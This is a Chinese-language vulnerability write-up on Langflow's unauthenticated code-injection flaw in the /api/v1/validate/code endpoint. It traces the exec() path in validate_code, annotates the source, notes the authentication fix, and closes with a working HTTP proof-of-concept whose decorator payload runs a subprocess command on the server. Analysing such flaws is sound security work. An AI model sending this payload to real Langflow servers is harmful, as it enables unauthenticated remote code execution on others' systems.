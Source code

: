 #AIcybercurity #Langflow #rce 
- https://github.com/langflow-ai/langflow/issues/7574
- 代码增改： https://github.com/langflow-ai/langflow/pull/6911/files
## 项目地址
- https://www.langflow.org/
- https://github.com/langflow-ai/langflow/

## 漏洞分析

### 漏洞简介
- 受影响版本的Langflow的`src/backend/base/langflow/api/v1/validate.py` 的`post_validate_code`方法**未对用户身份做校验**直接使用 `langflow.utils.validate` 的 `validate_code` 方法运行传入的代码，导致代码注入漏洞；
- 漏洞修复： 增加`CurrentActiveUser`验证 https://github.com/langflow-ai/langflow/pull/6911/files ![](media/Pasted%20image%2020250411221421.png) 

```python
post_validate_code(code)
		- > validate_code(code) # 	- > 函数在langflow.utils.validate被定义
			-> trae = ast.parse(code )
				->  exec( compile(trae) )
```



### `langflow.utlis.validate`解释
- 流程图
```python
          原始代码
             │
             ▼
    解析为 AST（语法检查） → 失败则记录错误到 function.errors
             │
             ▼
    遍历 AST 中的节点
             │
             ├── 处理 Import 节点 → 尝试导入模块 → 失败则记录到 imports.errors
             │
             └── 处理 FunctionDef 节点
                     │
                     ├── 编译为独立模块
                     │
                     └── 执行 exec(code_obj) → 失败则记录到 function.errors
```
- 关键函数
```python

# AST 解析与语法检查
....
tree = ast.parse(code)
....


# 函数定义的动态执行

code_obj = compile(ast.Module(body=[node], type_ignores=[]), "<string>", "exec")
.....
	exec(code_obj) 
......

```
- 原始文件
```python
def validate_code(code):
    # Initialize the errors dictionary
    # 错误字典结构：包含imports和function两个部分的错误收集
    errors = {"imports": {"errors": []}, "function": {"errors": []}}

    # Parse the code string into an abstract syntax tree (AST)
    # 尝试将代码解析为AST，捕获语法错误等解析异常
    try:
        tree = ast.parse(code)
    except Exception as e:  # noqa: BLE001
        # 注意：此处将代码解析错误（如语法错误）归类到function错误中，可能分类不合理
        if hasattr(logger, "opt"):
            logger.opt(exception=True).debug("Error parsing code")
        else:
            logger.debug("Error parsing code")
        errors["function"]["errors"].append(str(e))  # 解析错误应属于全局而非函数部分
        return errors

    # Add a dummy type_ignores field to the AST
    # 兼容性处理：某些Python版本可能需要type_ignores属性
    add_type_ignores()  # 假设该函数为AST节点添加type_ignores属性
    tree.type_ignores = []  # 显式设置为空列表

    # Evaluate the import statements
    # 检查所有import语句是否能正确导入
    for node in tree.body:
        if isinstance(node, ast.Import):
            for alias in node.names:
                try:
                    importlib.import_module(alias.name)
                except ModuleNotFoundError as e:
                    errors["imports"]["errors"].append(str(e))
        # 潜在问题：未处理ast.ImportFrom（from ... import）的情况，会导致漏检

    # Evaluate the function definition
    # 检查函数定义是否存在运行时错误
    for node in tree.body:
        if isinstance(node, ast.FunctionDef):
            # 将函数节点单独编译为模块（可能缺少上下文依赖）
            code_obj = compile(ast.Module(body=[node], type_ignores=[]), "<string>", "exec")
            try:
                exec(code_obj)  # 在独立环境中执行，可能因缺少依赖（如导入、变量）而报错
            except Exception as e:  # noqa: BLE001
                logger.opt(exception=True).debug("Error executing function code")
                errors["function"]["errors"].append(str(e))  # 捕获函数定义时的运行时错误

    # Return the errors dictionary
    return errors
```


### CodeQl分析

1. `git clone github.com/langflow-ai/langflow`
2. 切换到`git checkout v1.1.0` 有漏洞的版本下

## Poc
```http
POST /api/v1/validate/code HTTP/1.1
Host: {{Hostname}}
Content-Type: application/json

{"code": "@exec('raise Exception(__import__(\"subprocess\").check_output([\"echo\",\"yyds\"]))')\ndef foo():\n  pass"}
```
